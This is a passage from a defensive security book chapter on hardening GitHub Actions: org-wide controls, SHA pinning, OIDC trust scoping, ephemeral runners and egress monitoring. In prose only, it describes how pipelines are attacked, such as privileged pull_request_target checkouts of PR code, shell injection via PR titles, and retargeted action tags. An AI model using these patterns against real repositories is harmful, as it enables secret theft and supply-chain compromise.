| 8 | Ephemeral runners | GitHub-hosted, or self-hosted `--ephemeral` / ARC; never self-hosted on public repos | Runner persistence, pivot, cross-job poisoning |
| 9 | Environment protection | Required reviewers, wait timers, branch restrictions | Unauthorized production deploys |
| 10 | Branch protection + required workflows | Protected `main`; org-required workflows | Direct pushes; bypass of security jobs |
| 11 | Runtime egress control | StepSecurity Harden-Runner (`block`/`audit`) | Exfiltration by poisoned code/actions |
| 12 | Static analysis in CI | actionlint + zizmor (+ octoscan) as required checks | The above, at merge time |
| 13 | Audit logging | Org audit log; monitor workflow/secret/runner changes (Ch 9) | Undetected tampering |



## Distributed-systems lens: the org config is a fleet control plane

Everything above is written as if one engineer hardens one workflow. At fleet scale — hundreds
of repos, dozens of teams, thousands of workflow files — that model fails. You cannot rely on
every team to correctly reason about `pull_request_target`, resolve SHAs by hand, and scope an
IAM trust policy. Someone, somewhere, will paste the vulnerable pattern from a blog post. The
distributed-systems answer is the same as everywhere in this suite: **make the secure path the
default path, and enforce the invariants centrally.** GitHub's org and enterprise settings are,
in effect, a **fleet-wide control plane for CI**, and you should treat them as tier-0
infrastructure.

Concretely, at the org/enterprise level:

- **Set the default `GITHUB_TOKEN` permissions to read-only** for the whole org, so every new
  repo starts least-privilege and teams opt *up*, not down.
- **Restrict allowed actions org-wide** and **require actions to be pinned to a SHA**. This is
  the control that would have blunted `tj-actions` across an entire company at once — a curated
  allowlist plus mandatory SHA pins means a retargeted tag cannot even be referenced. Maintain
  the allowlist as reviewed config, not tickets.
- **Publish hardened reusable workflows and required workflows** through the paved road
  (**Chapter 10 — Building a Secure Build Platform at Scale**). A team writes
  `uses: my-org/ci-workflows/.github/workflows/build.yml@<sha>` and inherits least-privilege
  permissions, SHA-pinned steps, Harden-Runner, OIDC deploy, and static analysis *for free*.
  **Organization required workflows** let you enforce that a security workflow (secret scanning,
  zizmor, provenance generation) runs on every repo regardless of what its own YAML says —
  centrally mandated, not per-team opt-in.
- **Centralize OIDC trust.** Provision cloud roles with trust policies scoped to your
  reusable-workflow repos and specific environments through IaC, reviewed centrally, so that no
  team hand-writes a wildcard `sub` into a production role.
- **Roll out runtime egress monitoring fleet-wide.** Harden-Runner (or equivalent) in every
  job, initially in `audit` mode, gives you an org-wide baseline of what your CI talks to —
  which is both a detection surface for compromise and the data you need to move to `block`.
- **Monitor the control plane itself.** Stream the org audit log (secret changes, runner
  registrations, allowed-actions edits, workflow permission changes) into your SIEM, and alert
  on drift. This connects to **Chapter 9 — CI/CD Observability and Detection**. Static analysis
  (zizmor) should run not only per-PR but periodically across *all* repos, because a repo that
  was safe last month can drift.

The mindset shift is the important part: at fleet scale you are not securing workflows, you are
securing the *platform configuration that constrains every workflow*. The org's Actions settings
are a policy engine; a well-run org expresses "no unpinned actions, read-only by default, OIDC
for cloud, protected environments for prod" as enforced platform invariants, so that the worst
YAML a hurried engineer can write is still bounded by the platform. That is the only approach
that scales — and it is exactly the paved-road philosophy developed in **Book 4, Chapter 10**
and **Book 8's** governance chapters.

## Key takeaways

- **The trigger is the security boundary.** It determines which ref's workflow runs, whether
  secrets are present, and the `GITHUB_TOKEN` scope. Internalize `pull_request` (untrusted code,
  no secrets, read-only) vs `pull_request_target`/`workflow_run`/`issue_comment` (trusted ref,
  secrets, write token).
- **Never execute untrusted PR head code in a privileged context.** The classic RCE is
  `pull_request_target` + checkout of `head.sha` + running its scripts with secrets in scope.
  Use plain `pull_request`, or split via `workflow_run` with inert artifacts, or restrict
  `pull_request_target` to metadata only.
- **Never interpolate untrusted input into `run:`.** `${{ }}` is textual substitution before the
  shell parses; a malicious PR title becomes shell code. Bind untrusted data to `env:` and quote
  it.
- **Actions are executable dependencies, and tags are mutable.** Pin every third-party action by
  full commit SHA and let Dependabot bump it. The `tj-actions/changed-files` compromise
  (CVE-2025-30066, March 2025) retargeted tags to code that dumped secrets to public logs;
  SHA-pinned repos were unaffected.
- **Set `permissions: {}` and grant least privilege per job.** Restrict and SHA-require allowed
  actions at the org level.
- **Prefer OIDC over stored cloud credentials** — short-lived, keyless, and rooted in GitHub's
  signed claims. Scope the cloud trust policy to the exact `repo:ORG/REPO:environment:...`;
  a wildcard `sub` is an account takeover waiting to happen.
- **Ephemeral runners by default; never self-hosted on a public repo.** Use GitHub-hosted or
  `--ephemeral`/ARC. Gate production with environment protection (required reviewers, branch
  restrictions), which composes powerfully with environment-scoped OIDC.
- **Layer runtime defense (Harden-Runner egress control) and static analysis (zizmor,
  actionlint) on top of the design fixes** — they contain what slips through.
- **At fleet scale the org's Actions configuration is the control plane.** Default read-only
  tokens, an org allowlist with mandatory SHA pins, hardened reusable/required workflows, central
  OIDC trust, and org-wide egress and audit monitoring beat asking every team to write secure
  YAML.

## Further reading

- **GitHub Docs**, *Security hardening for GitHub Actions* — the authoritative reference on
  trigger contexts, `GITHUB_TOKEN` permissions, script injection, and self-hosted runner risk.
  https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions
- **GitHub Docs**, *About security hardening with OpenID Connect* and the AWS/GCP/Azure
  configuration guides — the primary source for the OIDC federation flow, the `sub` claim
  format, and trust-policy conditions.
  https://docs.github.com/en/actions/deployment/security-hardening-your-deployments
- **GitHub Docs**, *Using pre-written building blocks / Restricting the use of actions* and
  *Assigning permissions to jobs* — allowed-actions policy, SHA-pinning requirement, and the
  `permissions` key.
- **NVD / StepSecurity / community reporting**, *CVE-2025-30066* — the
  `tj-actions/changed-files` compromise (March 2025): tag retargeting, the memory-dump payload,
  the secrets-to-logs exfiltration, and the chained `reviewdog/action-setup` origin.
- **StepSecurity**, *Harden-Runner* documentation — runtime egress filtering and monitoring for
  GitHub-hosted and self-hosted runners. https://github.com/step-security/harden-runner
- **zizmor** (Trail of Bits) documentation and audit reference, and **actionlint** (rhysd) —
  static analysis for workflow security and correctness.
  https://docs.zizmor.sh/ · https://github.com/rhysd/actionlint
- **Actions Runner Controller (ARC)** documentation — ephemeral Kubernetes runners; developed
  further in Chapter 8. https://github.com/actions/actions-runner-controller
- **OWASP**, *Top 10 CI/CD Security Risks (2022)* — SEC-4 (Poisoned Pipeline Execution) and
  SEC-3 (dependency-chain abuse) are the categories this chapter's controls address.
- Book 4, Chapter 4 (CI/CD Platform Threat Models), Chapter 6 (Secrets in CI/CD), Chapter 7
  (Pipeline Poisoning), Chapter 8 (Ephemeral and Isolated Runners), Chapter 9 (CI/CD
  Observability and Detection), Chapter 10 (Building a Secure Build Platform at Scale); Book 5,
  Chapter 4 (Workload Identity); Book 8 (Governance and Incident Response).
```